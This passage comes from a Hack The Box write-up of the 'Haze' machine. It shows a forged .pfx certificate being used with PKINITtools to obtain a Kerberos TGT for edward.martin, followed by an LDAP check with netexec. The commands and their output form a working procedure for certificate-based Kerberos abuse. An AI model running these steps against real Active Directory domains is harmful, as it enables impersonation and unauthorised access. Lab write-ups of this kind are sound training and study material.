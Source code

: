 To make the `PKINITtools` working properly we spun up a `virtual environment` and installed the `requirements` using `requirements.txt`.

```shell
┌──(kali㉿kali)-[~/opt/10_post_exploitation/PKINITtools]
└─$ python3 -m virtualenv venv
created virtual environment CPython3.13.2.final.0-64 in 284ms
  creator CPython3Posix(dest=/home/kali/opt/10_post_exploitation/PKINITtools/venv, clear=False, no_vcs_ignore=False, global=False)
  seeder FromAppData(download=False, pip=bundle, via=copy, app_data_dir=/home/kali/.local/share/virtualenv)
    added seed packages: pip==25.0
  activators BashActivator,CShellActivator,FishActivator,NushellActivator,PowerShellActivator,PythonActivator
```

```shell
┌──(kali㉿kali)-[~/opt/10_post_exploitation/PKINITtools]
└─$ . venv/bin/activate
```

```shell
┌──(venv)─(kali㉿kali)-[~/opt/10_post_exploitation/PKINITtools]
└─$ pip3 install -r requirements.txt
<--- CUT FOR BREVITY --->
```

Then we used the forged `.pfx` file to receive the `AS-REP encryption key`.

```shell
┌──(venv)─(kali㉿kali)-[~/opt/10_post_exploitation/PKINITtools]
└─$ python3 gettgtpkinit.py -cert-pfx /media/sf_cybersecurity/notes/HTB/Machines/Haze/files/edward.pfx -dc-ip 10.129.135.234 'haze.htb/edward.martin' edward.martin.ccache
2025-03-30 08:57:48,420 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-03-30 08:57:48,528 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-03-30 08:57:56,214 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-03-30 08:57:56,214 minikerberos INFO     f4b7f1d9527d7592cb07f1a6ff4fe9e27cb3299af48a0309e716a5cb0372617e
INFO:minikerberos:f4b7f1d9527d7592cb07f1a6ff4fe9e27cb3299af48a0309e716a5cb0372617e
2025-03-30 08:57:56,218 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

Now we exposed the new `.ccache` file to our local session and performed a quick check if we did everything correctly.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/files]
└─$ export KRB5CCNAME=edward.martin.ccache
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/files]
└─$ netexec ldap 10.129.135.234 -u 'edward.martin' --use-kcache
SMB         10.129.135.234  445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
LDAP        10.129.135.234  389    DC01             [+] haze.htb\edward.martin from ccache
```
